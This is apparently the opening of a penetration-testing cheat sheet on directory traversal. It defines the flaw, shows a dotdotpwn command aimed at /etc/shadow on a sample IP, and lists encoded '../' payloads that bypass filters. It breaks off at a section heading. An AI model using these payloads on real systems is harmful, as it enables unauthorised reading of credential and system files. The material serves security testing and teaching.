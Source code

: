 # Directory Traversal

> Path Traversal, also known as Directory Traversal, is a type of security vulnerability that occurs when an attacker manipulates variables that reference files with “dot-dot-slash (../)” sequences or similar constructs. This can allow the attacker to access arbitrary files and directories stored on the file system.

## Summary

* [Tools](#tools)
* [Basic exploitation](#basic-exploitation)
    * [16 bits Unicode encoding](#16-bits-unicode-encoding)
    * [UTF-8 Unicode encoding](#utf-8-unicode-encoding)
    * [Bypass "../" replaced by ""](#bypass--replaced-by-)
    * [Bypass "../" with ";"](#bypass--with-)
    * [Double URL encoding](#double-url-encoding)
    * [UNC Bypass](#unc-bypass)
    * [NGINX/ALB Bypass](#nginxalb-bypass)
    * [ASPNET Cookieless Bypass](#aspnet-cookieless-bypass)
    * [IIS Short Name](#iis-short-name)
* [Path Traversal](#path-traversal)
    * [Interesting Linux files](#interesting-linux-files)
    * [Interesting Windows files](#interesting-windows-files)
* [htaccess](#file-.htaccess)
* [References](#references)

## Tools

- [dotdotpwn - https://github.com/wireghoul/dotdotpwn](https://github.com/wireghoul/dotdotpwn)
    ```powershell
    git clone https://github.com/wireghoul/dotdotpwn
    perl dotdotpwn.pl -h 10.10.10.10 -m ftp -t 300 -f /etc/shadow -s -q -b
    ```

## Basic exploitation

We can use the `..` characters to access the parent directory, the following strings are several encoding that can help you bypass a poorly implemented filter.

```powershell
../
..\
..\/
%2e%2e%2f
%252e%252e%252f
%c0%ae%c0%ae%c0%af
%uff0e%uff0e%u2215
%uff0e%uff0e%u2216
```

### 16 bits Unicode encoding

